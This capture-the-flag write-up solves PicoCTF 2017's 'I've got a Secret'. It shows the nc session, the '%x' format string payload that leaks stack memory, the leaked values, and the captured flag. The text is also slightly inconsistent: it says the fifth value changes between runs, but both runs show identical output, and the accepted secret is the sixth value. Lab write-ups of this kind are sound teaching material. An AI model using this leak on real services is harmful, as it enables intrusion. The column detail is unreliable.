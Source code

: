# PicoCTF_2017: I've got a Secret

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Hopefully you can find the right format for my [secret](secret.c)! Source. Connect on shell2017.picoctf.com:39169.

**Hint:**

>This is a beginning format string attack.

## Write-up
A classic format string attack, which means passing the conversion string in the input field to get the memory address of the stack.

By running the code for the first time, we come to know that the secret is in hex format, so `%x` can be used to attack this code.

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: f7fc7c20
    As my friend says,"You get nothing! You lose! Good day, Sir!"

With the same input `%x %x %x %x %x %x %x %x` run the program for some times to see that the 5th column generates a new value everytime. That's because of the urandom in the program and we can decide that this should be the required secret hex value.

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: 4ef971b5
	c9fd8f8a1dcaee8962bc60cb516a79a5
	Wow, you got it!

Therefore, the flag is `c9fd8f8a1dcaee8962bc60cb516a79a5`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2NDkxMDM3NTZdfQ==
-->